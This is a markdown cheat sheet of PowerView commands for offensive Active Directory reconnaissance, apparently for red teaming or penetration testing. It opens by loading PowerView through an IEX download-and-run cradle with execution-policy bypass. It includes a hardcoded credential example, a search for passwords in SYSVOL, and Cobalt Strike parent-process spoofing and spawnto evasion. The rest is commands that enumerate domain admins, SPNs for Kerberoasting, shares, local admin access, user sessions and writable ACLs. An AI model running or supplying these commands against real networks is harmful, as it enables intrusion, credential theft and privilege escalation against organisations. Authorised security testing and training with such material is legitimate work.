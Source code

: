 ## INFO0

### Pre-Commands
```powershell
runas /netonly /user:marvel.local\user1 powershell
powershell -exec bypass
Import-Module .\PowerView.ps1
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1");
```

### Use alternative credential for any function
```powershell
$SecPassword = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('marvel.local\user3', $SecPassword)
Get-DomainUser -Credential $Cred
```

### Search for Interesting Keywords Inside Files on Shares
```powershell
findstr /spin /c:"password" \\hydra-dc\sysvol\*
```

### Cobalt Strike
```powershell
powershell-import /root/PowerView.ps1
ppid 392
spawnto x64 C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
powerpick Get-Domain
```

## INFO1

### Domain Info
```powershell
Get-Domain
Get-Forest
Get-DomainController
```

### Password Policy
```powershell
Get-DomainPolicy | select -ExpandProperty systemaccess
```

### Enumerate Domain Users
```powershell
Get-DomainUser | select cn,samaccountname,description,pwdlastset,badpwdcount
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}
```

### Enumerate Domain Groups
```powershell
Get-DomainGroup *admin* | select cn,samaccountname,description,member,memberof
```

### Enumerate Domain OUs
```powershell
Get-DomainOU | select name,description,whencreated,whenchanged,gplink
```

### Enumerate Domain Computers
```powershell
Get-DomainComputer | select dnshostname,operatingsystem,pwdlastset
```

### Enumerate Domain Group Members
```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select groupname,membername,memberobjectclass
```

### Enumerate <User/Group> Groups
```powershell
Get-DomainGroup -MemberIdentity <User/Group> | select samaccountname
```

## INFO2

### Enumerate Open Shares
```powershell
Get-NetShare -ComputerName WorkStation1
```

### Enumerate Open Shares on All Domain Computers (Get-DomainComputer + Get-NetShare)
```powershell
Find-DomainShare -Verbose
```

### Enumerate Open Shares That You Have Read Access
```powershell
Find-DomainShare -CheckShareAccess -Verbose
```

### Search for Interesting Files Inside Shares
```powershell
Find-InterestingFile -Path \\hydra-dc\sysvol\
```

### Find Interesting Domain Share Files (Find-DomainShare + Find-InterestingFile)
```powershell
Find-InterestingDomainShareFile -Verbose
```

## INFO3

### Enumerate Local Groups
```powershell
Get-NetLocalGroup –ComputerName WorkStation1
```

### Enumerate Local Group Members Of Administrators Group on Computer WorkStation1
```powershell
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Administrators"
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Remote Desktop Users"
```

### Enumerate Local Group Members on All Domain Computers (Get-DomainComputer + Get-NetLocalGroupMember)
```powershell
Find-DomainLocalGroupMember -GroupName "Administrators" -Verbose
```

### Test Admin Access Rights on a Computer
```powershell
Test-AdminAccess -ComputerName workstation1
```

### Test Admin Access Rights on All Domain Computers (Get-DomainComputer + Test-AdminAccess)
```powershell
Find-LocalAdminAccess -Verbose
```

## INFO4

### Enumerate Users Sessions
```powershell
Get-NetSession -ComputerName WorkStation1
```

### Enumerate LoggedOn Users
```powershell
Get-NetLoggedon -ComputerName workstation1
```

### Get Domain Admins + Run Get-NetSession/Get-NetLoggedon on Every Domain Computer + Comparing The Result
```powershell
Find-DomainUserLocation -Verbose
```

### Perform Against Highly Traffic Servers (Get-DomainFileServer, Get-DomainDFSShare, Get-DomainController)
```powershell
Find-DomainUserLocation -Stealth -Verbose
```

### Run Get-NetSession/Get-NetLoggedon on Every Domain Computer Then Printing All The Result
```powershell
Find-DomainUserLocation -ShowAll
```

### Perform Against Different Users or Groups
```powershell
Find-DomainUserLocation -UserGroupIdentity "local_admin"
Find-DomainUserLocation -UserIdentity "ITSupport"
```

## INFO5

### Enumerate All The Domain ACLs for Non-BuiltIn Users With Modification Access
```powershell
Find-InterestingDomainAcl -ResolveGUIDs -WarningAction:SilentlyContinue | select IdentityReferenceName,ObjectDN,ActiveDirectoryRights,ObjectAceType
```

### Enumerate all the special ACLs
```powershell
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner|GenericWrite" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl
```

